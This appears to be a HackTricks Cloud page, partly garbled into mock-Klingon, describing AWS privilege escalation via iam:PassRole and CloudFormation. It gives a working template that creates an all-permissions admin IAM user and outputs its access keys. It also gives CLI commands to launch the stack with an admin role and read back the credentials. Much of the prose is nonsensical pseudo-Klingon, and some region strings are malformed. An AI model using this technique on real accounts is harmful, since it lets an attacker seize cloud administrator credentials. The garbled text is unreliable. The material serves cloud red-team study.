 # iam:PassRole, cloudformation:CreateStack, je cloudformation:DescribeStacks

<details>

<summary><strong>Qapla'! HackTricks AWS Red Team Expert (htARTE) vItlhutlhlaHbe'chugh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks Daq Qapla'! yIlo'laH:

* **Qapla'!** **tlhIngan Hol** **HackTricks** **advertised** **company** **'ej** **HackTricks** **PDF** **download** **want** **'ej** **SUBSCRIPTION PLANS** **Check** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) **Get**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **Discover**, **exclusive NFTs** **collection** **our**
* **Join** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** **the** [**telegram group**](https://t.me/peass) **follow** **us** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share** **hacking tricks** **submitting PRs** **HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) **HackTricks Cloud** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** **by**.

</details>

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:
```json
{
"Resources": {
"AdminUser": {
"Type": "AWS::IAM::User"
},
"AdminPolicy": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"Description" : "This policy allows all actions on all resources.",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": "*"
}]
},
"Users": [{
"Ref": "AdminUser"
}]
}
},
"MyUserKeys": {
"Type": "AWS::IAM::AccessKey",
"Properties": {
"UserName": {
"Ref": "AdminUser"
}
}
}
},
"Outputs": {
"AccessKey": {
"Value": {
"Ref": "MyUserKeys"
},
"Description": "Access Key ID of Admin User"
},
"SecretKey": {
"Value": {
"Fn::GetAtt": [
"MyUserKeys",
"SecretAccessKey"
]
},
"Description": "Secret Key of Admin User"
}
}
}
```
**Qapla'!** **Qa'vIn** **CloudFormation stack** **yItlhutlh!**
```bash
aws cloudformation create-stack --stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::[REDACTED]:role/adminaccess \
--capabilities CAPABILITY_IAM --region us-west-2
```
**ngoD vIleghlaH** vaj **cha'logh** vIleghlaH **Stack** 'e' vItlhutlh. **Stack** 'e' **credentials** vItlhutlh **output** vIleghlaH.
```bash
aws cloudformation describe-stacks \
--stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
--region uswest-2
```
### References

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
